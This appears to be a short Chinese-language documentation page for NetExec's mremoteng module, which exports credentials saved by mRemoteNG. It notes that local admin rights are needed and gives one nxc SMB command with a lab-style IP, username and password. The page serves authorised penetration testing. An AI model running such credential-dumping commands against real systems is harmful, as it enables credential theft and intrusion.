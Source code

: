 ```yaml
---
description: 导出 mRemoteNG 存储的凭证
---
```


# 🆕 导出 mRemoteNG

{% hint style="warning" %}
你需要在远程目标上至少具有本地管理员权限，如果你的用户是本地账户，请使用 **--local-auth** 选项
{% endhint %}

```
nxc smb 192.168.56.11 -u eddard.stark -p FightP3aceAndHonor! -M mremoteng
```
